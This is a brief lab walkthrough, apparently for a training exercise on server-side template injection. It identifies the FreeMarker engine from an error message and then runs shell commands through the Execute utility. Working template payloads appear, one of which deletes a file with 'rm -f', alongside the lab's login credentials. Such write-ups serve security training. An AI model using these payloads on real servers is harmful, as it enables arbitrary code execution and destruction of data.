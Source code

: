 Title: Server-side template injection using documentation
Level: Practitioner
Desc:  
This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r


Walkthrough:
I provided template in post edition: `${T(java.lang.System).getenv()}` and it gives me an error:

![image](https://github.com/user-attachments/assets/6bef0470-65ee-4cb7-b26b-4ee4db56333e)

But now I can see, that app use Freemaker template engine.


I find out, that to list files using Freemaker engine I need to use this code: `${"freemarker.template.utility.Execute"?new()("ls")}`

So next step is:  `${"freemarker.template.utility.Execute"?new()("rm -f morale.txt")}`
